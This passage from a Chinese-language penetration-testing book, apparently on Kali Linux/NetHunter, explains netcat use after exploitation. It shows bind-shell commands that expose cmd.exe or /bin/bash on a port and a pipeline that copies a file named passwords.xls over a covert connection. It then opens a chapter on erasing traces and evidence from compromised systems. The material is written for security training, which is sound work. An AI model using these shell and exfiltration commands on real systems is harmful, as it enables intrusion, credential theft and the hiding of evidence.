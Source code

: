 对于 Windows，我们使用以下命令：

```
 nc -l -p <port number> -e cmd.exe
```

对于 Linux，我们使用这个：

```
nc -l -p <port number> -e /bin/bash 
```

在这两个命令中，使用-e 开关来在连接到命令 shell 时执行命令。这意味着我们将在本地获得一个 shell，我们可以用它来向远程系统发送命令。然后，在我们的攻击系统上，我们输入以下内容：

```
nc <remote host IP address> <remote port> 
```

在这一点上，如果您成功执行了命令，您将看到一个命令提示符，允许您与远程系统进行交互。

Netcat 也可以用于从目标中转移文件和数据。我们可以使用隐蔽连接将数据慢慢复制到我们的本地系统。在这个例子中，我们将转移一个名为`passwords.xls`的文件，可能是一个包含密码的 Excel 文件。

从源系统，我们输入以下内容：

```
type passwords.xls | nc <remote IP> <remote port>  
```

这个命令表示要显示`passwords.xls`文件，然后将其管道(`|`)到 netcat (nc)到`192.168.1.104`远程 IP 地址通过端口`6996`。

从目标系统，我们输入以下内容：

```
nc -l -p 6996 > passwords.xls 
```

这个命令表示要在端口(`p`)`6996`上创建一个监听器(`l`)，然后将在此监听器上接收到的数据发送到名为`passwords.xls`的文件中。

# 总结

我们开始时看了如何利用在前几步中收集的有关目标的信息。在前几章中收集的信息是通过与目标的直接交互来逐渐增加的。我们的目的是获得更多信息，以便在尝试更少侵入性的情况下利用系统。

通常我们会先破解或恢复密码，以获取账户访问权限，然后尝试通过特权升级来获得对系统的额外访问权限。有了这种增加的访问权限，就有可能执行更具侵入性的任务。攻击者通常可能尝试执行的常见操作包括安装软件、安装远程软件，或者创建其他后门以便以后访问。

在下一章中，我们将学习如何清除痕迹并从目标系统中删除证据。

# 进一步阅读

请参考 Kali Linux/Kali NetHunter 工具列表：[`tools.kali.org`](http://tools.kali.org)。


# 第六章：清除目标上的痕迹和移除证据

渗透测试过程中最重要的一个方面是确保系统上没有任何被入侵的痕迹。就像黑客一样，你的目标可能是入侵目标系统或网络，然而，在终止连接或退出受害者系统时，确保没有任何日志或残留数据留下是非常重要的。此外，在渗透测试期间，可能会生成额外的数据，这些数据会在系统和网络上留下痕迹。

在本章中，我们将涵盖以下主题：
